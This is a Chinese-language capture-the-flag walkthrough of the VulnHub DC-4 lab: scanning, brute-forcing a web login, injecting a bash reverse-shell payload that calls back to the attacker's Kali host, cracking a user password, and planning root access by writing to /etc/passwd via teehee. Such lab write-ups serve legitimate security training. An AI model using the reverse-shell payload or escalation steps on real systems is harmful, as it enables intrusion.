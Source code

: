 ## DC-4 : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| DC-4          | `192.168.1.111` |

### 扫描端口和版本信息

`nmap -A 192.168.1.111`

![1](../src/vulnhub/dc_4/1.png)

### 访问Web并确定web应用

根据 Nmap 扫描结果可知，web 应用程序运行的是 HTTP 服务器

![2](../src/vulnhub/dc_4/2.png)

经过审计源码，特殊字符SQL注入测试后均无所获，那么就只有暴力破解了

![3](../src/vulnhub/dc_4/3.png)

暴力破解结果，得到账户和密码：`admin:happy`

![4](../src/vulnhub/dc_4/4.png)

使用账户和密码登录后，进入到命令执行页面，看样子可执行代码

![5](../src/vulnhub/dc_4/5.png)

要是这样的话，这题就简单了。通过查看`/etc/passwd` 文件可知系统存在三个用户：*charles*、*jim*、*sam*

![6](../src/vulnhub/dc_4/6.png)

### Getshell

修改发送请求中的请求体如下，同时在 Kali 上监听 **6677** 端口

`radio=/bin/bash -c 'bash -i >%26 /dev/tcp/192.168.1.112/6677 0>%261'&submit=Run`

![7](../src/vulnhub/dc_4/7.png)

将 Kali 中已下载好的 LinEnum.sh 脚本上传到 DC-4 虚拟机中，并运行脚本得到以下有用信息

![8](../src/vulnhub/dc_4/8.png)

![9](../src/vulnhub/dc_4/9.png)

结果显示 `/home/jim/`目录下的 `test.sh` 脚本具有 SUID 权限。此外在 `bakups`目录下存在旧密码的备份文件，并且 *jim* 和 *www-data* 账户都有一份邮件。但是查看 *www-data* 账户的邮件没什么有用信息，想读 `jim` 账户邮件也得知道 `jim` 账户的密码

![10](../src/vulnhub/dc_4/10.png)

既然已经知道账户名和密码本，那就试着进行密码爆破。并且给出了这个文件，必然有用处

![11](../src/vulnhub/dc_4/11.png)

果不其然，我们得到账户 *jim* 的密码：`jibril04`。 登录上去查看一下 *jim* 的邮件

![12](../src/vulnhub/dc_4/12.png)

### 提权

Good，邮件里给出了 *charles* 账户的密码：`^xHhA&hvim0y`

![13](../src/vulnhub/dc_4/13.png)

通过查看 `teehee `帮助文件，知道该命令的作用就是读写文本。看来我们可以以 *root* 权限任意写文件，那么我们通过修改 `/etc/passwd` 文件添加用户就可以获取 *root* 权限

![14](../src/vulnhub/dc_4/14.png)


